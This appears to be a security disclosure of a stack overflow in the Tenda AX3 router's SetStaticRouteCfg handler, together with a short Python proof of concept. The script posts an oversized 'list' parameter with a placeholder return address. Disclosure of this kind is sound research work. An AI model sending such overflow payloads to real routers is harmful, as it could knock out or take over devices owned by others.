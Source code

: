 # Stack Overflow Vulnerability in Tenda Router AX3 (V16.03.12.11)

## Overview

A stack overflow vulnerability exists in the latest version V16.03.12.11 of the Tenda Router AX3. This vulnerability occurs in the `save_staticroute_data` function's `_isoc99_sscanf` call, where improper input parameters from the `/goform/SetStaticRouteCfg` page lead to data being concatenated onto the stack without any checks.

## Vulnerability Details

In the latest version `V16.03.12.11` of the Tenda Router AX3, a vulnerability occurs in the `save_staticroute_data` function's `_isoc99_sscanf`. 

When handling requests from the `/goform/SetStaticRouteCfg` page, the construction of the parameter list can influence the `save_staticroute_data` function, causing input to be concatenated onto the stack by the `sscanf` function without any checks, leading to a stack overflow. 

![image-20250203211326509](.\assets\image-20250203211326509.png)

![image-20250203211413402](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250203211413402.png)

With appropriate parameter construction, this can result in denial of service (DoS) and remote code execution (RCE).

## POC

```
from pwn import *
import requests

url = "http://172.18.231.176/goform/SetStaticRouteCfg"

retaddr="bbbb"
payload = "1,2,3,"+"a"*0x674+p32(retaddr)
data = {
    "list": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

## AttackDemo



![image-20250203214025940](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250203214025940.png)



![image-20250203232553401](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250203232553401.png)![image-20250203232906046](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250203232906046.png)

![image-20250203232818981](C:\Users\lenovo\Desktop\WP\iot\assets\image-20250203232818981.png)

